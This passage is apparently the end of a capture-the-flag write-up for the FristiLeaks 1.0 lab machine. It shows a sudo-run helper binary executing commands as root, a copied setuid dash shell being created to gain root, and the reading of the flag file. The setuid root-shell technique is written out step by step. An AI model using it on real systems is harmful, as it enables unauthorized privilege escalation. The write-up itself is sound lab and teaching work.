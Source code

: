 Different output, so I was definitely getting somewhere! According to the usage, it takes a command, so I passed one in to see what would happen: 

```
-bash-4.1$ sudo -u fristi ./doCom id
sudo -u fristi ./doCom id
uid=0(root) gid=100(users) groups=100(users),502(fristigod)
```

Great, basically any command passed to doCom was executed as root. It was time to get a root shell: 

```
-bash-4.1$ sudo -u fristi ./doCom cp /bin/dash /tmp/rootshell
sudo -u fristi ./doCom cp /bin/dash /tmp/rootshell
-bash-4.1$ sudo -u fristi ./doCom chmod 4755 /tmp/rootshell
sudo -u fristi ./doCom chmod 4755 /tmp/rootshell
-bash-4.1$ /tmp/rootshell
/tmp/rootshell
# whoami
whoami
root
```

Woo hoo! Root shell! All that was left was to pillage /root and grab that flag: 

```
# ls -l /root
ls -l /root
total 4
-rw-------. 1 root root 246 Nov 17 12:19 fristileaks_secrets.txt
# cat /root/fristileaks_secrets.txt
cat /root/fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```

And that, as they say, is that! 
